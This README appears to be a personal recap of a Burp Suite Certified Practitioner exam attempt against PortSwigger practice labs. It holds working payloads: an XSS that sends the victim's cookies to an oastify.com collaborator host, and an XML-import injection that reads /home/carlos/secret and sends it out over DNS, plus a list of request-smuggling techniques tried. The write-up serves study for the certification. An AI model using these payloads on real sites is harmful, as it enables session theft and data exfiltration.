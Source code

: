 # BSCP-Recapitulation
This Repo contains Burp Suite Certification Practitioner Recapitulation of Mine


## BSCP 1<sup>st</sup> Exam
I have taken my first BSCP exam on **December 24th, 2024**. I failed on App 2 without success to address any vulnerabilities. Please find the details in the following points:

### Application 1 - EXPLOITED ❤️‍🔥
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Comment on the Blog Post
    3. Login Form
    4. Forgot Password
   
  - Vulnerability: XSS with Blocked Tags
  - How to trigger for the first time:
    ```javascript
    <script>alert(1)</script>
    ```
  - After scanning the allowed tags and events, I used this payload to ensure it works:
    ```javascript
    <body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>
    ```
  - I attached this *URL Encoded* payload to the Exploit Server:\
    a. Bare Payload
    ```javascript
    <script>Document.location = 'https://WEB_ID.web-security-academy.net/?query=<body onload=document.location='https://collaborator.oastify.com/?c='+document.cookie tabindex=1>#x';</script>
    ```
    b. URL encoded Payload (You can copy the URL from HTTP history )
    ```javascript
    <script>Document.location="https://WEB_ID.web-security-academy.net/?searchTerm=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fcollaborator.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie+tabindex%3D1%3E#x"</script>
    ```

- Stage 2:
  - Features:
    The features mentioned here are the additional visible functional after passing the `stage 1`
    1. Update Email
       
  - Vulnerability: JSON `roleId` in Response Body of Update Email.
  - How to Exploit:
    1. Send this request to the Intruder
    2. Brute the `roleId`
    3. Observe the result with statusCode `302`
   
- Stage 3:
  - Features:
    The features mentioned here are the visible functional in `Admin Panel` Menu
    1. XML User Import
  - Vulnerability: XXE Injection
  - How to Exploit:
    I used the following payload to exploit this vulnerability (I URL-Encoded the Ampersand(&) character):
    ```XML
    <?xml version="1.0" encoding="UTF-8"?>
    <users>
      <user>
        <username>Exp1</username>
        <email>exp1@domain.com</email>
      </user>
     <user>
        <username>Exp2</username>
        <email>exp2@example.com%26`nslookup -q=cname $(cat /home/carlos/secret).bfuxae8oi1ac1lrm5l2hgmwh68c00qof.oastify.com`</email>
      </user>
    </users>
    ```

### Application 2 - UNEXPLOITED 😢
- Stage 1:
  - Features:
    The features mentioned here are the visible functional that we can exploit for stage 1
    1. Search in Homepage
    2. Login Form
    3. Forgot Password
       
  - Walkthrough:
    1) I have Performed Host Header Attack using the following kind of techniques:
       - Enumerate using IP address: **NOT VULNERABLE**
       - Exploit using `X-headers`: **NOT VULNERABLE** (Not Reflected to the Exploit Server)
       - Exploit by supplying an absolute URL in the request line as follows `GET https://WEB_ID.WEB_ID.web-security-academy.net/`: **NOT VULNERABLE**. Please refer to [this lab](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-ssrf-via-flawed-request-parsing)
       - Exploit using duplicated host > **NOT VULNERABLE**
         > Not Reflected to the Exploit Server
       - Exploit using connection state > **NOT VULNERABLE**
         > it seems it was not able to use the connection header. Since `Connection` was not reflected in the response.
    2) Brute forcing user > **NOT VULNERABLE**.
         > There is no response with statusCode `302`)
    3) <a name="walkthrough-number-3"></a>I have found a different `Response Message` in the **Forgot Password** feature that indicates whether the user exists.
    4) I have performed CSRF Attack:
       - modified the CSRF token: **NOT VULNERABLE**
       - Removed CSRF token and Parameter: **NOT VULNERABLE**
       - swap the CSRF token with the value from the other session: **NOT VULNERABLE**
    5) Web Cache: **NOT VULNERABLE** (There is no `Tracking.js` and no `Cache` header in Response).
    6) I Have Performed HTTP Request Smuggling:
       - unable to use `CL` and `TE` Headers in a request: **NOT VULNERABLE** (Indicates we can direct to use **H2 or HTTP2** Techiniques)
       - Performed H2.TE; H2.CL; H2 Smuggling CRLF; CL.0 Req: **NOT VULNERABLE** (always GET `200` response, But It seems I have not exploited these techniques correctly).
    7) I have scanned using the `Launch All Scans` option in the **HTTP Request Smuggler** Extension. In addition, I only got a `dual path` vulnerability. In my opinion, we cannot consider that scan result as a potential vulnerability.
       > I will describe the reason in the next point).

  - Potential Vulnerability:
    In this section, I am trying to summarize or classify any potential vulnerabilities and any techniques that I have not performed prior BSCP Exam.
    1) H2 Request Splitting via CRLF Injection: **The Most potential vulnerability**.\
       > I have tried to find the potential labs in **Port Swigger Academy** that have similarities with my case in the exam. And I have found the closest potential in [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-request-splitting-via-crlf-injection) with `H2 Request Splitting via CRLF Injection` technique. The reason is When solving that lab, I only got the `dual path` vulnerability in the scan result compared to other `HTTP/2 Request Smuggling` techniques.
    2) HTTP/2-TE. Please refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling).
    3) Maybe Obfuscating `TE` Header using payload in **BotesJuan**'s Repo would be a good option.
       > Please note not to duplicate this header. Just use 1 `TE` Header since duplicated `TE` Header is not allowed).
    
    4) Perform H2.CL Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/advanced/lab-request-smuggling-h2-cl-request-smuggling).
    5) Perform CL.0 Technique refers to [this lab](https://portswigger.net/web-security/request-smuggling/browser/cl-0/lab-cl-0-request-smuggling).
    6) Brute Force the **Password** using the potential `usernames` based on the `Walkthrough` [number 3](#walkthrough-number-3).

    

    
     
